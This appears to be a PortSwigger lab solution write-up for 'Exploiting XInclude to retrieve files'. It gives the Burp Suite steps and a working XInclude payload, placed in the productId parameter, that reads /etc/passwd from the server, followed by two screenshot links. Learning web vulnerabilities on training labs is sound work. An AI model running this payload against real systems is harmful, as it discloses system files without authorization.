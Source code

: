 ## Exploiting XInclude to retrieve files

## Solution

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

Set the value of the productId parameter to:

```<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>```

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/494f4d3e-2365-48f1-b68b-f508cb24229f">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b5cffa87-9e02-49e7-a0c7-c500ad1a441d">

